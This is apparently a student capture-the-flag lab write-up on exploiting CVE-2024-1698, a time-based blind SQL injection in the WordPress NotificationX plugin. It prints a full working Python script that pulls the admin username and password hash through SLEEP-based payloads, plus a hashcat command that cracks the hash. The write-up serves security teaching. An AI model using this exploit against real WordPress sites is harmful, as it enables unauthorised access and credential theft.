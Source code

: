 # CTF Week #8 (SQL Injection)

By exploring the website, using the developer tools, we obtained:

![Image 1](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/CTF8_img1.png)

We discovered that the website has the following plugins:
- Wordpress version 6.7.1.
- NotificationX version 2.8.1.
- FontAwesome version 4.7.0.

After that, we did some research to find any vulnerabilities in that plugins related to SQLinjection.
We found **CVE-2024-1698** on **WordPress NotificationX** .


By searching for the CVE exploit, we found this exploit script, which we adapted to our website:

```
import requests
import string
from sys import exit

# Sleep time for SQL payloads
delay = 0.3

# URL for the NotificationX Analytics API
url = "http://44.242.216.18:5008//wp-json/notificationx/v1/analytics"

admin_username = ""
admin_password_hash = ""

session = requests.Session()

# Find admin username length
username_length = 0
for length in range(1, 41):  # Assuming username length is less than 40 characters
    resp_length = session.post(url, data={
        "nx_id": 1337,
        "type": f"clicks`=IF(LENGTH((select user_login from wp_users where id=1))={length},SLEEP({delay}),null)-- -"
    })

    # Elapsed time > delay if delay happened due to SQLi
    if resp_length.elapsed.total_seconds() > delay:
        username_length = length
        print("Admin username length:", username_length)
        break

# Find admin username
for idx_username in range(1, username_length + 1):
    # Iterate over all the printable characters + NULL byte
    for ascii_val_username in (b"\x00" + string.printable.encode()):
        # Send the payload
        resp_username = session.post(url, data={
            "nx_id": 1337,
            "type": f"clicks`=IF(ASCII(SUBSTRING((select user_login from wp_users where id=1),{idx_username},1))={ascii_val_username},SLEEP({delay}),null)-- -"
        })

        # Elapsed time > delay if delay happened due to SQLi
        if resp_username.elapsed.total_seconds() > delay:
            admin_username += chr(ascii_val_username)
            # Show what we have found so far...
            print("Admin username:", admin_username)
            break  # Move to the next character
    else:
        # Null byte reached, break the outer loop
        break

# Find admin password hash
for idx_password in range(1, 41):  # Assuming the password hash length is less than 40 characters
    # Iterate over all the printable characters + NULL byte
    for ascii_val_password in (b"\x00" + string.printable.encode()):
        # Send the payload
        resp_password = session.post(url, data={
            "nx_id": 1337,
            "type": f"clicks`=IF(ASCII(SUBSTRING((select user_pass from wp_users where id=1),{idx_password},1))={ascii_val_password},SLEEP({delay}),null)-- -"
        })

        # Elapsed time > delay if delay happened due to SQLi
        if resp_password.elapsed.total_seconds() > delay:
            admin_password_hash += chr(ascii_val_password)
            # Show what we have found so far...
            print("Admin password hash:", admin_password_hash)
            # Exit condition - encountered a null byte
            if ascii_val_password == 0:
                print("[*] Admin credentials found:")
                print("Username:", admin_username)
                print("Password hash:", admin_password_hash)
                exit(0)
```

Then we changed the delay to 1, to handle possible limitations in responde time of the server.
By running the exploit, we obtained the hashed password!

![Image 3](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/CTF8_img3.png)

To recover the original password, we used Hashcat to crack the hash. We started by saving the hash in a file named password.txt. Then, we ran the Hashcat command to crack the hash using the rockyou.txt wordlist:

```hashcat -m 400 -a 0 password.txt rockyou.txt```

With this command we finally obtained the password ```heartbroken```.


### Questions

#### You already know that the goal is to exploit an SQL injection vulnerability. Are there any reported vulnerabilities in public databases and/or tools that allow the discovery and exploitation of SQL injection vulnerabilities?

Yes, we used CVE-2024-1698 for the NotificationX plugin, which allowed SQL injection due to improperly sanitized input fields.

#### What is the vulnerable endpoint of the website, and how can an attack be carried out? How can the vulnerability be classified?

The vulnerable endpoint is the NotificationX Analytics API. The attack is carried out by injecting malicious SQL payloads into the type parameter, exploiting improper input validation. This is a time-based blind SQL injection, where the injected SQL queries cause the server's response time to be delayed based on the condition specified. This allows attackers to extract data from the database by observing response times, without directly revealing the data. The vulnerability is classified as improper input sanitization."


#### The attack will allow you to extract information from the server's database. Specifically, you want to find the administrator's password, but as dictated by good security practices, it is not stored in plain text in the database, but as a hash of the original password. For this server, in more detail, what is the password storage policy?

#### Is storing a hashed password secure in the sense that it makes recovering the original password impossible? This issue is very common not only in the case of vulnerabilities but also in data leaks. There are various ways to attempt to reverse hash functions to recover passwords and tools to automate this process.
